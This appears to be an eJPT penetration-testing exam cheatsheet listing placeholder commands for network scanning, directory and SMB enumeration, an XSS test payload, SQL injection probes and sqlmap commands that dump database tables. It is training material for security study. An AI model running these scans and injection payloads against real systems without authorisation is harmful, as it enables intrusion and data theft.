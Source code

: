 # **eJPT Cheatsheet**

## **Adding route to the network**
```console
root@kali~$ip a | grep tap0 | awk '/inet/ {print $2}'
root@kali~$ ip route add <ip/subnet> via <current ip gateway>
```
## **Checking for for alive host** 
```console
root@kali~$nmap -sn <ip/subnet> | grep "report for" | cut -d " " -f 5 > ip.txt
```
## **Scan all IP address**
```console
root@kali~$ports=$(nmap -p- --min-rate=1000 -T4 <ip> | grep ^[0-9] | cut -d ‘/’ -f 1 | tr ‘\n’ ‘,’ | sed s/,$//)
root@kali~$nmap -sV -sC -p$ports <ip> -oG <name of file>
```

## **Vulnerability scanning using nmap**
```console
Its help me a lot to validate some vulnerablities.

root@kali~$ nmap --script "type of scanner" <IP>
```

## **Directory Enumeration**

```console
root@kali~$gobuster dir -u http://<IP> -w <wordlist>
```
## **Web vulnerability scanning**
```console
root@kali~$nikto -h <IP>
```
## **Cross Site Scripting**
```console
- Look for any input forms.
- use <script>alert(1)</script>
```
## **SQL Injection**
```console
- Look for any input forms.
- put "'" after a string, SQL error message prompt. 

Boolean Injection:

AND 1=1; -- -
OR 'a'='a'; -- -

Tip: If your doing manual SQLi validation, you can automate it using burp suite.

Once the target is validate with SQLi, used sqlmap to automate things up.

root@kali~$sqlmap -u <url> 
root@kali~$sqlmap -u <url> -p <parameter>
root@kali~$sqlmap -u <url> --tables
root@kali~$sqlmap -u <url> -D <database name> -T <table name> --dump
```
## **Windows Shares Enumeration**
```console
enumerate shared directory.

root@kali~$smbclient -L //ip 
root@kali~$enum4linux -a ip_address
```
## **Windows folder enumeration**
```console
C:\Users\NT-AUTHORITY> dir /s /b 
```

